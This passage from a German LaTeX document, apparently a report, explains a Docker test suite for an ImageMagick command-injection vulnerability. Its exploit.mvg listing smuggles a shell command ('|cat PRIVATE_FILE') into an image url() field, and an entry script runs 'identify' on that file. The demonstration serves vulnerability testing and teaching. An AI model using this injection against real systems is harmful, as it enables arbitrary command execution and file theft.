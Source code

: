 \begin{lstlisting}[language=Text, caption=Geheime Datei in Testsuite,label={lst:testsuiteprivatefile}]
> cat PRIVATE_FILE
PRIVATE-CONTENT
\end{lstlisting}
\vspace{5mm}


Diese Datei wird im nachfolgend von ImageMagick aufgerufen und enthält den Code,
welcher den Inhalt der PRIVATE\_FILE ausgibt.

\begin{lstlisting}[language=Text, caption=exploit.mvg in Testsuite,label={lst:testsuiteexploit}]
push graphic-context
viewbox 0 0 640 480
fill 'url(https://testimage.png"|cat "PRIVATE_FILE)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Eine Beschreibung, warum der hinterlegte Code ausgeführt wird, ist im Kapitel 'Details der Schwachstelle' zu finden .



\begin{lstlisting}[language=Text, caption=entryPoint.sh in Testsute,label={lst:testsuiteentry}]
#!/bin/bash

identify exploit.mvg
echo 'AFTER_IDENTIFY'
\end{lstlisting}
\vspace{5mm}

Dieses Shell-Script wird von jedem Dockerfile aufgerufen, um den Exploit auszunutzen.
Dabei wird die identify-Funktion von Imagemagick angesprochen.\\

Das nachfolgende echo wird als Flag benutzt, um sicherzustellen, dass entryPoint.sh auch wirklich aufgerufen wird.
Dies wird später in test.sh etwas genauer erläutert.



Hier handelt es sich um ein valides JPEG-Bild File,
welches bei dem eigentlichen Test nicht direkt benötigt,
jedoch zu debug zwecken nützlich ist,
um die generelle Funktionsfähigkeit von Imagemagick und dem Identify Befehl zu testen.



Mit diesem Script wird der Test einer speziellen Umgebung angestoßen.
Hierbei wird der Name des Dockerfiles als ersten Parameter übergeben.

